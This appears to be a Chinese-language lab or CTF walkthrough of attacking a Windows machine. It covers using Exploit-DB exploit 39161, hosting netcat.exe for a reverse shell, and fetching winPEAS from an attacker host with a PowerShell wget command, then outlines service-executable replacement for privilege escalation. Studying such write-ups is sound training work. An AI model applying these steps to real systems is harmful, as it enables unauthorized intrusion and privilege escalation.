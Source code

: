 可以直接使用searchsploit中的，也可以下载https://www.exploit-db.com/raw/39161

### 2. 修改port/ip

修改exp中的攻击机的ip和监听端口

![image-20240306170537719](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061705771.png)

### 3. 开启一个web server，上传一个netcat.exe

这个exp需要使用natcat.exe来发起一个连接请求，所以需要上传一个netcat.exe到目标机器。采用的方式是python开启一个web server，然后上传。默认使用80，如果要修改这个端口，就要在exp的vbs变量中的ip_addr的后面加上`:[port]`字符串。

![image-20240306170551447](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061705497.png)

### 4. 开启web server，监听端口

netcat.exe放在web server目录下，同时开启端口监听

![image-20240306170752951](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061707005.png)

### 5. 运行exp，获取反弹shell

我这里通过VPN连接的kali怎么都弹不回来-。-不浪费时间了

### 6. 使用winPEAS

下载winPEAS：

```powershell
powershell -c wget "http://<ip>:8000/winPEAS.exe" -outfile "winPEAS.exe"
```

![img](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061738870.png)

### 7. 运行winPEAS，发现弱点

运行winPEAS，找到存在漏洞的服务：

![img](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202403061739953.png)

后续使用就是生成提权payload，stop服务，上传payload，替换exe，start服务，获得shell。

## 总结

扫 -> 找洞 -> 打 -> 提

